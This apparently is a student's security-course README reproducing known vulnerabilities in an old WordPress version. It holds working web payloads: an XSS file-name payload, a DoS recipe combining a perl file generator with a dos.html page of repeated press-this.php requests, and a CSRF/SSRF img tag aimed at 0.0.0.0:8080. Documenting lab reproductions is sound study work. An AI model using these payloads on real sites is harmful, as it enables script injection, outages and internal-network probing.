 
# Project 7 - WordPress Pentesting

Time spent: **6** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Vulnerability Name or ID 8819
  - [ ] Summary: An attacker can inject a malicious script in to the filename which a victim tries to upload leading to XSS inside the administrators control panel.

Two different "file to large" cases end up in interpolating the file name and appending it into DOM unsanitized leading to XSS.
Any file type can be used (.jar whatever) as the vuln happens before the type is validated.
    - Vulnerability types:injecting a scpript, xxs
    - Tested in version: 
    - Fixed in version: 
  - [ ] GIF Walkthrough: 8819.gif
  - [ ] Steps to recreate: 
 1.  Create a 20MB file called
Dinosaurs secret life<img src=x onerror=alert(1)>.png

2. Goto your wordpress site http://127.0.0.1/wp-admin/media-new.php and dragndrop or use file manager or choose the file via. the "Select Files" button.

3. A error will appear with ... exceeds the maximum upload size for this site. along with a alert box to display that the payload has been executed.
  - [ ] Affected source code:
    - [Link 1](https://hackerone.com/reports/203515)
    
    
2. (Required) Vulnerability Name or ID 8770
  - [ ] Summary: 
The Press This [4] function allows quick publishing with a special web
browser bookmarklet. An admin can also visit the Press This page
directly. One of the features of Press This is scanning an external
server for embeddable content. This is done with a GET request to:

https://www.securify.nl/wp-admin/press-this.php?u=<URL>&url-scan-submit=Scan

When this URL is called, Press This will download the contents located
at "URL" and look for content such as images and other embeddable
elements.
 This property can be abused by setting the
external URL to a huge file and have an authenticated admin visit it.
The PHP process will use 100% of its CPU resources to process the file.
If an authenticated admin can be lured to an external page, then the
malicious URL can be called many times, blocking all PHP server threads.
This will cause the server to be unreachable for a while.
    - Vulnerability types: DDOS
    - Tested in version: 
    - Fixed in version: 
  - [ ] GIF Walkthrough: 8770.gif
  - [ ] Steps to recreate:  
1. Install plug in Press This
2. Send get request on press this
3. On an external server, create a large text file with the command:
perl -e 'print "<>"x28000000' > foo.txt
4.Create a file dos.html on the external server with enough entries
to fill the connection pool of the WordPress server, as follows:
<img src='http://<wp
server>/wp-admin/press-this.php?u=http%3A%2F%2F<external
server>%2Ffoo.txt&url-scan-submit=Scan&a=b'>
<img src='http://<wp
server>/wp-admin/press-this.php?u=http%3A%2F%2F<external
server>%2Ffoo.txt&url-scan-submit=Scan&a=c'>
<img src='http://<wp
server>/wp-admin/press-this.php?u=http%3A%2F%2F<external
server>%2Ffoo.txt&url-scan-submit=Scan&a=d'>
<img src='http://<wp
server>/wp-admin/press-this.php?u=http%3A%2F%2F<external
server>%2Ffoo.txt&url-scan-submit=Scan&a=e'>
<img src='http://<wp
server>/wp-admin/press-this.php?u=http%3A%2F%2F<external
server>%2Ffoo.txt&url-scan-submit=Scan&a=f'>
<img src='http://<wp
server>/wp-admin/press-this.php?u=http%3A%2F%2F<external
server>%2Ffoo.txt&url-scan-submit=Scan&a=g'>
[..]
(replace <wp server> with the WordPress server address and <external
server> with the external server)
  5. Now have a logged in admin visit dos.html. The server will be down for a
while.
  - [ ] Affected source code: https://hackerone.com/reports/153093
    - [Link 1](https://github.com/WordPress/WordPress/commit/263831a72d08556bc2f3a328673d95301a152829)
  
  
3. (Required) Vulnerability Name or ID 8376
  - [ ] Summary: 
The url http://xxx.xxx.xxx.xxx/wp-admin/press-this.php?u=URL_TO_SCRAPE&url-scan-submit=Scan does not validate that user intends to send a scrape request.
The filter does not validate for 0.0.0.0:PORT and allows the attacker to make the victim send GET request to servers priate127.0.0.1:PORT, localhost:PORT or anything which can be accessed via 0.0.0.0

So basicly a wordpress installations can send unwanted scrape/scan requests on behalf of their user invoked by the attacker. Including private connections via 0.0.0.0
    - Vulnerability types: Cross-Site Request Forgery (CSRF)
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
1. Sign in to owner of myWordpress.com
2. Victim is logged into Wordpress.
3. Victim visits bad site with a content of`<img src="//myWordpress.com/wp-admin/press-this.php?u=htto://0.0.0.0:8080&url-scan-submit=Scan" />
4. Victim sends a unwanted request to their server requesting a internal server address to be hit.
5.Server sends get request to 0.0.0.0:8080
6. Servers private 127.0.0.1 answers back.
This example is with a private address, but it could also be a public. address
  - [ ] Affected source code: (https://hackerone.com/reports/110801)
   https://hackerone.com/reports/110801
    https://core.trac.wordpress.org/changeset/36435
    https://wpvulndb.com/vulnerabilities/8376
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-2222
https://wordpress.org/news/2016/02/wordpress-4-4-2-security-and-maintenance-release
    
    
    
4. (Optional) Vulnerability Name or ID 9021
  - [ ] Summary: 
    - Vulnerability types:XXS
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 

  - [ ] Affected source code:
    
    
    
    
    
    
5. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

dos.html, dos, 

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

All of these challenges are very hard to find and follow as I am a Finance major with zero computing and linux background.
## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
